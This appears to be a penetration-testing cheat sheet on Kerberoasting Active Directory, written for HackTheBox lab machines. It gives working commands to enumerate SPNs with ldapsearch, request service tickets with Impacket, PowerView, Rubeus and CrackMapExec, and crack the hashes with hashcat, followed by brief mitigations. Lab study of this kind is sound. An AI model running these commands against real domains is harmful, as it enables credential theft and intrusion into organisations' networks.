 Kerberoasting is a technique to extract and crack service account credentials from Active Directory by request **service tickets(TGS)** fro accounts with **Service Principal Names (SPNs)**

### Target Machines

* Active HTB
* Tentacle HTB

### 1. Enumerate SPNs using ``ldapsearch``

use ``ldapsearch`` to query LDAP service and extract SPNs and UPNs

```bash
ldapsearch -x -H ldap://<IP> -D '' -w '' -b 'DC=infosecwarrior,DC=local' > ldapsearch-outputs.txt
```

#### Extract ``servicePrincipalName`` Values

```bash
cat ldapsearch-outputs.txt | grep servicePrincipalName
```

save to a list 

```bash
cat ldapsearch-outputs.txt | grep servicePrincipalName | cut -d " " -f2 > servicePrincipalName-list.txt
```

#### Extract ``userPrincipalName`` Value

```bash
cat ldapsearch-outputs.txt | grep userPrincipalName | cut -d " " -f2 > userPrincipalName-list.txt
```

---

### 2. Create Roastable User (for testing)

Use PowerShell to simulate a roastable account by assuming it a SPN

```powershell
$PASSWORD = ConvertTo-SecureString -AsPlaintext -Force -String "Password123"
```

```powershell
New-ADUser -Name "Kerbe-roast" -Description "kerberoasting" -Enabled $true -AccountPassword $PASSWORD
```

```poweshell
Set-ADUser -Identity kerbe-roast -ServicePrincipalNames @{Add="HTTP/dc.infosecwarrior.local"}
```

---

### 3. Kerberoasting with Impacket

#### Using ``GetUsersSPNs.py`` (Requires valid domain credentials)

```bash
GetUserSPNs.py infosecwarrior.local/administrator:Password123 -dc-ip <IP> -request
```

---

### 4. Kerberoasting with PowerView (PowerShell)

if you have a shell on a domain-joined machine you can use PowerView:

```powershell
Import-Module .\PowerView.ps1
```

```Powershell
Get-DomainUser -SPN *
```

To dump hashes directly

```powershell
Invoke-Kerberoast -OutputFormat Hashcat
```

---

### 5. Cracking Kerberos TGS Hashes

#### Exapmle Hash

```bash
$krb5tgs$23$*Administrator$ACTIVE.HTB$........
```

### Crack with HashCat

use the kerberos TGS hash mode ``13100``

```bash
hashcat -a 0 -m 13100 kerberoasting-hash.txt /opt/rockyou.txt 
```

if you are cracking AS-REP roast hashes (etype 23, no pre-auth)

```bash
hashcat -a 0 -m 18200 AS-REP-hash.txt /opt/rockyou.txt 
```

---

### 6. Automated Tools for Lerberoasting

#### Rubeus (C# tool for ticket request and hash extraction)

```bash
Rubeus.exe kerberoast /format:hashcat /domain:infosecwarrior.local /user:username /rc4:hash
```

#### CrackMapExec (Python-based all-in-one framework)

```bash
crackmapexec smb <IP> -u users.txt -p passwords.txt --kerberoasting
```

---

### 7. Mitigations (Blue Team)

* Disable unused service accounts
* Rotate passwords regularly
* Use AES encryption over RC4 for service accounts
* Restrict acounts with SPNs from being used for interactive login
* Implement alerts for unusual TGS request
